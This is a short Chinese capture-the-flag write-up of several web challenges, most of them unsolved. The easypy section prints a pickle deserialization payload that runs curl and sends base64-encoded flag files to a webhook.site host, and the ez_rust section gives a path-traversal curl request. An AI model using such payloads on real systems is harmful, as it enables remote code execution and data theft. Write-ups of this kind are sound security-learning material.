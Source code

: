 ## Web （要爆0了，太好玩了）
### phpstudy (未解出)
可以绕过摸到登录面板，似乎前台有个1click的点但是没密码，试了下好像也没adminbot，蹲题解  
### easypy
扫到download，但是没有源码，pycdc逆一下是指定路由的pickle 
i绕R指令 
```python
import base64

pickle_payload = b'''\x80\x03(S'curl https://webhook.site/9380b723-dc74-4b8c-b39a-b60d7f0ebcdc/?a=`cat /f* | base64`'
ios
system
.'''
print(base64.b64encode(pickle_payload))
``` 
### call (未解出)
### php_again (未解出)
软连接可以做到任意文件读，但按题意好像要做到任意文件写，可目录又不在一个地方，蹲题解（）  
### ez_rust 
好像什么都没过滤？  
`curl http://39.106.131.193:35800/./flag --path-as-is`

### qqcms (未解出)
和官网diff了一下发现除了config完全一致，虽然是小cms但是拿0day出题还是好炫酷，准备直接蹲题解  
